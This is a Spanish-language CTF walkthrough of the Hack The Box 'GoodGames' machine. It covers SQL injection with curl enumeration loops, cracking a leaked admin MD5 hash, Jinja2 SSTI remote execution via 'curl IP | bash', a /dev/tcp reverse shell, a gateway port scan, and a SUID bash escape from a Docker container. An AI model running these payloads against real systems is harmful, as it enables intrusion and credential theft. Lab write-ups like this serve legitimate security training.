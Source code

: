 ```yaml
---
title: GoodGame
---
```


![good](../../../../../assets/games.png)

## Enumeración

La enumeración con nmap en esta máquina es muy básica, solo nos muestra el nombre del host **_goodgames.com_** y nos reporta el puerto 80 corriendo un Apache 2.4.51. Intenté numerar rutas comunes pero parece estar protegido con un [catch-all route](# "Protección que hace que todas las rutas devuelvan 200 OK aunque no existan").  
Existen varias maneras de filtrar esto, ya sea poniendo una frase que se repita en el RAW o con técnicas similares, pero en este caso no era necesario.  

Encontramos un sign-in que, aunque no es vulnerable a un bypass directo mediante [SQLi](# "Vulnerabilidad que permite inyectar consultas maliciosas en una aplicación que usa bases de datos, posibilitando leer, modificar o borrar información de forma no autorizada."), sí nos permite listar la base de datos (_me costó un rato darme cuenta de esto_).

###### Para efectuar la SQLi 

- Primero tenemos que capturar el sign-in con [Burp Suite](# "Herramienta de seguridad que actúa como proxy, utilizada para analizar y atacar aplicaciones web, que permite interceptar, modificar y automatizar solicitudes y respuestas HTTP en pruebas de penetración.") y en el campo del _email_ empezamos a probar si se genera un error o algún comportamiento extraño.

![burp1](../../../../../assets/GoodGames/Burp1.png)
<span style="font-size:12px">_"En el ejemplo de la imagen detectamos que la base de datos tiene 4 columnas, me basé en el **Length**: cuando es correcto da un total de 9267, cuando es erróneo 33490."_</span>

- Una vez que ya sabemos cuántas columnas tiene, podemos seguir con nuestra enumeración:

```SQL
email=admin%40admin.com' union select 1,2,3,4-- -&password=admin
```
Con esta query podemos loguearnos como el usuario que pongamos en la cuarta columna, pero dentro no había nada de interés, así que procedemos a investigar más a fondo la base de datos.

- Fijé el auto-scroll en la palabra **Welcome** ya que desde ahí podía ver todas las consultas que lanzaba desde la columna 4.

![burp2](../../../../../assets/GoodGames/Burp2.png)
<span style="font-size:12px">_"Aquí vemos cómo filtra el nombre atr4x y más adelante nos permite listar columnas, tablas,etc."_</span>

- Procedemos a listar las tablas:

```SQL
email=admin%40admin.com' union select 1,2,3,table_name from information_schema.tables-- -&password=admin
```
![burp3](../../../../../assets/GoodGames/Burp3.png)

Ver las consultas desde BurpSuite me parece lo peor, no entiendo nada y no se ve nada a si que dejo aca abajo un script para jugar con la base de datos.

###### Script para enumerar la base de datos

```bash
for i in $(seq 0 90);do echo "-Tabla= $i: $(curl -s -X POST http://goodgames.htb/login --data "email=admin@admin.com' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=admin" | grep 'Welcome' | awk 'NF{print $3}' | awk -F '<' '{print $1}')";done
```
Con esto ya podíamos listar las bases de datos con comodidad.

![lista](../../../../../assets/GoodGames/listado.png)

Encontramos una tabla interesante: **user**. Seguimos listando ahora sus columnas:

```bash
for i in $(seq 0 10);do echo "-Columna= $i: $(curl -s -X POST http://goodgames.htb/login --data "email=admin@admin.com' union select 1,2,3,column_name from information_schema.columns where table_name='user' limit $i,1-- -&password=admin" | grep 'Welcome' | awk 'NF{print $3}' | awk -F '<' '{print $1}')";done
```
![columnas](../../../../../assets/GoodGames/columnas.png)

Ahora sí, con las columnas deseadas listamos credenciales y usuario:  

```bash
for i in $(seq 0 90);do echo "Credenciales= $i: $(curl -s -X POST http://goodgames.htb/login --data "email=admin@admin.com' union select 1,2,3,concat(email,0x3a,password) from user-- -&password=admin" | grep 'Welcome' | awk 'NF{print $3}' | awk -F '<' '{print $1}')";done
```
Esto nos da un correo y un hash de contraseña que podemos romper con John rápidamente:

**Credenciales= 0: admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec**

##### Rompiendo el hash

Para esto usamos la herramienta **John the Ripper**, intentando romper el hash con un diccionario:

```bash
john --format=Raw-MD5 --wordlist=rockyou.txt hash
```
<span style="font-size:12px">_Si ves el mensaje “Loaded 1 password hash...”, ejecuta el siguiente comando:_</span>

```bash
john --show --format=Raw-MD5 hash
```
<span style="font-size:12px">_Esto mostrará la contraseña en texto plano._</span>

**superadministrator** → Con estas credenciales accedemos al panel administrativo.

## Explotación

Una vez dentro del panel, debemos añadir **internal-administration.goodgames.htb** a nuestro `/etc/hosts` para que cargue correctamente.  

En la sección de ajustes encontramos que el campo “nombre” es vulnerable a [SSTI](# "Server-Side Template Injection: vulnerabilidad que ocurre cuando la entrada del usuario se evalúa directamente en el motor de plantillas del servidor, permitiendo manipulación de vistas o incluso ejecución remota de código (RCE).").  
Probamos con **{{9*9}}** y, en vez de mostrar la cadena, devuelve **81** → claramente es vulnerable.  

![81](../../../../../assets/GoodGames/81.png)

Para lograr un RCE podemos usar [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution).  
Un payload útil sería:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl IP | bash').read() }}
```

- Creamos un archivo **index.html** con nuestra reverse shell:
```bash
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

- Montamos un servidor Python:
```bash
python3 -m http.server 80
```

- Y nos ponemos en escucha con Netcat:
```bash
nc -nlvp PORT
```

Con esto cuando le demos a Save All obtendremos una reverse shell la cual nos tendra en un contenedor.

###### Escapando del contenedor

Al enumerar  la máquina inicial solo corría el puerto 80, así que escaneé el gateway en busca de más puertos.  

```bash
for i in {1..65535}; do echo > /dev/tcp/Gateway-IP/$i && echo "[+] Puerto $i abierto"; done
```

<span style="font-size:12px">"_Para saber la IP del gateway ejecutando ifconfig. Como Docker asigna el *.1 al host dentro de la red bridge, simplemente cambié el último octeto de mi dirección por 1._"</span>

El script reporta que esta corriendo el puerto 22(SSH) y el 80(HTTP), parce que esta utilizando port forwarding, estan reutilizando credenciales en absolutamente todo a si que podemos ganar acceso como el usuario augustus via ssh.

### Escalada de privilegios 

Al entrar en el contenedor notamos que podíamos ver los archivos del host principal. Esto indica que la ruta `/home/augustus` estaba montada en el contenedor.  
La idea fue copiar nuestra `/bin/bash` al home de augustus, darle permisos SUID y cambiar el usuario a root desde el contendor.  

```bash
root@docker:/home/augustus# chown root:root bash
root@docker:/home/augustus# chmod 4755 bash
root@docker:/home/augustus# ssh augustus@172.19.0.1
augustus@GoodGames:~$ ./bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
```

## Reflexión

Sin duda una máquina muy divertida que combina varios conceptos y resulta muy educativa si estás empezando.  
Sirve mucho para practicar scripting en bash, repasar escapes de contenedor, inyecciones SQL, SSTI y escalada de privilegios.  
Aunque la privesc era evidente, si no tienes una base sólida de conceptos cuesta llegar a la solución.  

# FIN
